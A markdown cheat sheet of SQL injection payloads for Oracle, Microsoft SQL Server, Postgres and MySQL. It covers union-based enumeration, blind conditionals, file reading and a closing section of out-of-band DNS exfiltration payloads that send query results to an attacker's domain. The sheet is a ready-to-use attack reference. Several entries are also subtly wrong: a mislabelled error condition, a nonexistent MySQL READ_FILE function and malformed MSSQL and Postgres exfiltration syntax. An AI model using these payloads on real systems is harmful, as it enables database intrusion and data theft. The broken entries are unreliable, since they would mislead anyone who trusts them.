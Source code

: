 # SQL Injection
## Union Attacks
**Requires knowing number of columns returned**
**Requires selected columns matching datatypes from original query**
- `UNION SELECT <COL1> FROM <TABLE>`

### Determining Column Length
- `ORDER BY <x>--` 
- `UNION SELECT NULL,[NULL,...]--`
	- Oracle - `SELECT NULL,[NULL,...] FROM DUAL--`
Repeat until unexpected behaviour occurs

## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> [ELSE <FALSE>] END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END`
- MySql / MariaDB - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`
### Fixed Conditions
- TRUE -> `OR 1=1--`
- FALSE -> `AND 1=2--`
- Error -> 
	- Oracle - `to_char(1/0)`
	- Microsoft - `1/0`
	- Postgres - `cast(1/0 as text)`
	- MySql / MariaDB - `SELECT table_name FROM information_schema.tables`

## Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDB - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

## String Concatenation
**Useful for dumping char/varchar information inside a single char/varchar column**
- Oracle / Postgres - `'<STR>'||'<ING>'`
- Microsoft - `'<STR>'+'<ING>'`
- MySQL / MariaDB - `'<STR>' '<ING>'` `CONCAT('<STR>','<ING>')`

## Joining Rows
**Useful if reflection only takes first row**
- Oracle - `listagg(<COL>, "\n")`
- Microsoft / Postgres - `string_agg(<COL>, "\n")`
- MySQL / MariaDB - `group_concat(<COL1>, ":", <COL2>, "\n")`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)` -> 'ba'
- Microsoft / Postgres / MySql / MariaDB - `SUBSTRING('foobar', 4, 2)` -> 'ba'

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDB - `<QUERY1>;<QUERY2>`

## Reading Files
- Postgres (Only in data directory) - `SHOW data_directory` -> `PG_READ_FILE('<REL_PATH>')`
- MySql / MariaDB - `READ_FILE('<ABS_PATH>')`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(<QUERY>)||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDB (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`